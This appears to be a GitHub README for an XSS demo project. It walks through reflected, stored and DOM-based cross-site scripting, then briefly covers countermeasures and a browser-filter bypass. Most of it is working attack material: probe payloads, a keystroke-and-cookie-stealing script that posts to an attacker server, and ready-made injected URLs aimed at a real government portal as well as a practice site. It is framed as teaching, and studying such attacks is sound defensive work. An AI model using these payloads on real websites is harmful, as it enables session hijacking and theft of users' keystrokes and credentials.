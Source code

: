 # TTC-Connect XSS
This is a demo project designed to demonstrate how cross-site scripting works and how it can be used to exploit vulnerabilities in websites. 


## Description
Our demo environment will consist of a specially crafted malicious code which performs the following:
* Capture the session domain of the victim
* Capture the session cookie of the victim
* Capture the key strokes of the victim
* Sends the captured information to our attacker server and save it to a file

This script will be used to perform a:
* [Reflected XSS Attack](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Stored XSS Attack](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [DOM-based XSS Attack](https://www.owasp.org/index.php/DOM_Based_XSS)

### Requirements
The following components needs to be installed to replicate the demo
* [Node JS](https://nodejs.org/en/) - Install NoeJs to run and host our attacker server
* A browser with XSS Filter disabled - IE was used in our demonstration
* A browser with XSS Filter enabled - Chrome was used in our demonstration



### Locate a exploitable website 
* We used [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example.
* To determine whether a site is susceptible to a XSS attack, we perform the following tests:
  * HTML Test
    ```
    <h1> test </h1>
    ```
  * Plain Javascript Test
    ```
    <script< alert('test') </script>
    ```
  * HTML Attribute Test
    ```
    <svg onload=alert(1)>
    ```
    
  * HTML Attribute Javascript Test
    ```
    <img src="http://inexist.ent" onerror="javascript:alert(1)"/>
    ```
  Enter the above codes in the [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example. search bar to see the result. 
  
  You should get the following results:
  * On a XSS Filtered enabled browser, only HTML test will pass
  * On a XSS Filtered disabled browser, all test except Plain Javascript test will pass
 
### Design your malicious script
We have designed the following script to attack our target websites
```
 <!-- Injected script that logs user's key press, domain and -->
    <img hidden src='x' onerror="document.onkeypress=function(e){ 
        var xhr = new XMLHttpRequest(); //Create new http request
        //Configure HTTP POST request to be send to attacker server
        xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); //Send keystroke as paramater
        //Allow CORS and use of JSON 
        xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); 
        //Send HTTP POST request with the defined body containing cookie and domain
        xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"
    />
```
Usable Minimized Version
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```

### Perform a Reflected XSS Attack
* Clone this project
  ```
  git clone https://github.com/HaifengMei/ttconnect-xss.git
  ```
* Go inside project directory
  ```
  cd ttconnect-xss
  ```
* Install necessary packages
  ```
  npm install
  ```
* Run application server
  ```
  node app.js
  ```
* Access on a  XSS Filter disabled browser the following link which has the attack script injected
[Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a Stored XSS Attack
* Ensure the attack server is running
* Access the following
[Vulnerable Forum](https://xss-game.appspot.com/level2/frame)
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: Persius, password: 1234"
    ```
* Submit the following script as a comment
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```
* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a DOM-based XSS Attack
* Ensure the attack server is running
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: DOMinic, password: 4321"
    ```
* Access the following injected link
[Injected TT Connect Link](https://xss-game.appspot.com/level1/frame?query=%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Counter Measures
* [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
  * Try [Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0) on a XSS-Filter enabled browser, it will get blocked
  
 * Implement [XSS Prevention Rules](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet#XSS_Prevention_Rules) by performing the following searched on [XSS-Proof Website](https://agriculture.gov.tt/):
 * Escaped HTML Test
   ```
   <h1> test </h1>
   ```
 * Escaped Plain Javascript Test
   ```
   <script< alert('test') </script>
   ```
 * Escaped HTML Attribute Test
   ```
   <svg onload=alert(1)>
   ```
 * Escaped HTML Attribute Javascript Test
   ```
   <img src="http://inexist.ent" onerror="javascript:alert(1)"/>
   ```
### XSS Filter Bypass
Although X-XSS-Protection designed into browser works for common attacks, there exits [bypasses](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) that allow hackers to execute their malicious scripts.

A Japanese hacker posted a [github repo](https://github.com/masatokinugawa/filterbypass/wiki/Browser%27s-XSS-Filter-Bypass-Cheat-Sheet#ieedge%E3%81%AExss%E3%83%95%E3%82%A3%E3%83%AB%E3%82%BF%E3%83%BC) that contains some working bypass for the latest XSS filters in Chrome, IE11/Edge and Safari

Following example shows that rearranging the script and encoding some characters will bypass the filter in Chrome
```
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```
Try the link and see for yourself

https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E

